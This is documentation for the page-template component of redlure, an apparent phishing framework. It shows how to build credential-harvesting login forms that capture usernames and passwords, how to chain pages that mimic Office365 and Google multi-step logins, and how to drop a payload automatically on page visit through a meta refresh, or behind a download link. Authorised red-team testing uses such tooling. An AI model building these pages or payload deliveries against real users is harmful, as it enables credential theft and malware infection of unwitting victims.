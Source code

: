 # Pages
The pages component is where you can store HTML templates to serve with your phishing campaigns. redlure lets you chain up to 4 templates together in 1 campaign (through the use of buttons or your mechanism of choice).

You can attempt to clone an existing webpage or build your own template in the [CodeMirror](https://codemirror.net/) editor.
![](../gitbook/images/newpage.png)

# IMPORTANT
Templates have three requirements to function the way you want, assuming you are collecting form data:
1. The HTML `form` tag must have the `method` attribute set to `POST`
2. The HTML `form` tag must have the `action` attribute set to `{{ next_url }}`
3. `Input` fields you want to capture must have the `name` attribute set.
4. The HTML form must include a button that submits the form (i.e. `input` tag with `type="submit"`)

Example:
```html
<form action="{{ next_url }}" method="POST">
    <input class="input-box" name="username" type="text">
    <input class="input-box" name="password" type="password"> 
    <input class="submit" type="submit" value="Sign In">
</form>
```

## Chaining Templates
The `{{ next_url }}` variable is used within page templates to direct visitors to the next phishing template in sequence.

# Variable (Username/Email) Passthrough
To mimic multi-page logins that display your username on the password form page (think Office365, Google), you can use to following variables within your HTML. These __*cannot*__ be used on your first landing page in a sequence; a form with an input field named one of these values must be submitted on the prior page.
* `{{ loginfmt }}` - Will display value from the prior page's form input where `name="loginfmt"`
* `{{ email }}` - Will display value from the prior page's form input where `name="email"`
* `{{ username }}` - Will display value from the prior page's form input where `name="username"`

# Serving a payload
When you configure a campaign you can optionally select a payload you've uploaded to your server/worker and set a URL path for it to be served at. A link to the payload route can be sent directly via email or it can be referenced as a variable in your HTML page template, in 1 of 2 ways:
1. Automatically download file when your page is browsed to
2. Download the file when a button is pressed or another action is taken

## Auto Download on Page Visit
To drop a payload when a visitor hits your redlure page, add the `{{ serve_payload }}` to your HTML page template. Example:
```html
<!DOCTYPE html>
<html>
<head></head>
<body>

     <!-- SNIPPED HTML CONTENT -->

</body>

{{ serve_payload }}

</html>
```
 When your page is rendered the variable with be replaced with:
 `<meta http-equiv="refresh" content="0; url=http[s]://yourdomain.com/custom/payload/path?id=[visitor_id]">`
This could be done by other means, such as directly inserting the `<meta>` tag in the page template, but I've found this will usually throw WYSISYG editors for a loop when previewing your page.
## Download on Action
If you want to place your payload download behind a click using a button or hyperlink, you can use the `{{ payload_url }}` within your page template. Example:
```html
<p><a href="{{ payload_url }}" style="cursor: pointer;">Click here</a> if the download does not begin.</p>

<!-- OR -->

<form action="{{ payload_url }}" method="GET">
    <button class="submit" type="submit">Download</button>
</form>
```



